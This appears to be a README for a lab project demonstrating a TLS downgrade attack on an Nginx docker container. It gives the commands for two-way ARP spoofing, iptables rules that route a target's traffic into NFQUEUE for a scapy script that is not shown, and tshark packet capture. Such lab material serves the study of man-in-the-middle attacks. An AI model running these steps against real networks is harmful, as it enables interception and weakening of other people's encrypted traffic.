 # TLS Downgrade Attack

Lookup installed cipher suites

```console
openssl ciphers -v | column -t
```

Obtain IP Nginx webserver docker container

```console
docker inspect -f '{{range .NetworkSettings.Networks}}{{.IPAddress}}{{end}}' nginx-server
```

Install apt packages

```console
apt install tshark 
```

Install pip packages

```console
pip3 install -r req.txt
```

Add iptables rules => /etc/iptables/rules.v4

```console
-A FORWARD -s $TARGET_IP/32 -j NFQUEUE --queue-num 2
-A POSTROUTING -s $TARGET_IP/32 -j MASQUERADE
```

Launch arpspoof sessions

```console
arpspoof -i $IFACE -t $TARGET_IP $GATEWAY_IP
arpspoof -i $IFACE -t $GATEWAY_IP $TARGET_IP 
```

Capture packets

```console
tshark -i $IFACE -w capture.pcapng -f "host $TARGET_IP"
```

Read captured packets

```console
tshark -r capture.pcapng
```

Run application

```console
python3 scapyTLS.py
```

Use sudo privileges if required!
